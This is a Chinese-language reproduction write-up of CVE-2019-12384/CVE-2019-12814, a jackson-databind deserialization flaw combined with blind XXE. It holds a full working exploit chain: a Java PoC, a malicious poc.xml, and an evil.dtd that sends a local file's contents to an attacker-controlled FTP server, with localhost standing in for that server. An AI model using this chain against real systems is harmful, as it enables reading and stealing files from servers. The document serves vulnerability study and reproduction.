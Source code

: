 # CVE-2019-12384-CVE-2019-12814 FasterXML jackson-databind 反序列化漏洞

### 一、漏洞简介

在Jackson 2.x ~ Jackson 2.9.9,当开发人员在应用程序中通过ObjectMapper对象调用enableDefaultTyping方法并且服务端使用了JDOM 1.x 或 JDOM 2.x 依赖库时，攻击者可以发送恶意的JSON消息，读取远程服务器上的任意文件。

**利用条件**

* 开启enableDefaultTyping
* 使用了JDOM 1.x 或 JDOM 2.x 依赖

### 二、漏洞影响

Jackson 2.x ~2.9.9

### 三、复现过程

环境搭建

创建一个Meaven项目，在pom.xml文件中添加以下依赖：


```xml
<dependencies>
    <dependency>
      <groupId>com.fasterxml.jackson.core</groupId>
      <artifactId>jackson-databind</artifactId>
      <version>2.9.9</version>
    </dependency>

    
    <dependency>
      <groupId>com.fasterxml.jackson.core</groupId>
      <artifactId>jackson-annotations</artifactId>
      <version>2.9.9</version>
    </dependency>

    
    <dependency>
      <groupId>com.fasterxml.jackson.core</groupId>
      <artifactId>jackson-core</artifactId>
      <version>2.9.9</version>
    </dependency>
    
    <dependency>
      <groupId>org.jdom</groupId>
      <artifactId>jdom2</artifactId>
      <version>2.0.6</version>
    </dependency>
  </dependencies>
```

#### 漏洞利用

测试文件

准备一个测试文件，后续进行读取：

![](images/2020_06_02/15912767290865.png)


编写poc.xml

该XXE属于Blind XXE，我们构造以下恶意xml代码，它会去调用位于我们的攻击主机上(这里以本地启动的Http服务模拟)的外部dtd文件(不在同一个文件写入要读取的文件主要是为了避免参数实体引用时发生的错误）：


```xml
<?xml version="1.0" ?>
<!DOCTYPE any[
<!ENTITY % file SYSTEM "file:///c:/hello.txt">
<!ENTITY % remote SYSTEM "http://127.0.0.1:4444/evil.dtd">
%remote;
%send; 
]> 
<foo></foo>
```

编写evil.dtd


```bash
<!ENTITY % ppp "<!ENTITY &#x25; send SYSTEM 'ftp://127.0.0.1/%file;'>">
%ppp;
```

启动Http服务

使用python开启一个简易的Http服务：

![](images/2020_06_02/15912767536560.png)


启动FTP服务

使用IPOP V4.1软件搭建一个简易的FTP服务：

![](images/2020_06_02/15912767605439.png)


执行漏洞POC

执行如下漏洞POC：


```java
package com.jacksonTest;

import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.IOException;

public class Poc {
    public static void main(String[] args)  {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        String payload = "[\"org.jdom2.transform.XSLTransformer\", \"http://127.0.0.1:4444/poc.xml\"]";
        try {
            mapper.readValue(payload, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

成功读取到文件信息（笔者这里尝试过读取win.in文件，但是发现无法读全，该漏洞其实也是一个反序列化+XXE的利用，而且是Blind XXE，有兴趣的大佬可以再深入研究一波）

![](images/2020_06_02/15912767769976.jpg)


整个执行流程如下：首先加载参数实体remote，此时会远程加载攻击者主机上的外部实体，首先加载name实体的值，即为我们要读取的文件的内容，然后加载ppp参数实体，在ppp实体中又内嵌了send实体，所以 接下来加载send实体，此时就是关键点，即将name实体的值（C:/hello.txt）发送到我们的FTP服务器上(通过GET、POST等方式的查询会在攻击者的服务器日志中留下相关记录）

参考链接

https://xz.aliyun.com/t/7820#toc-7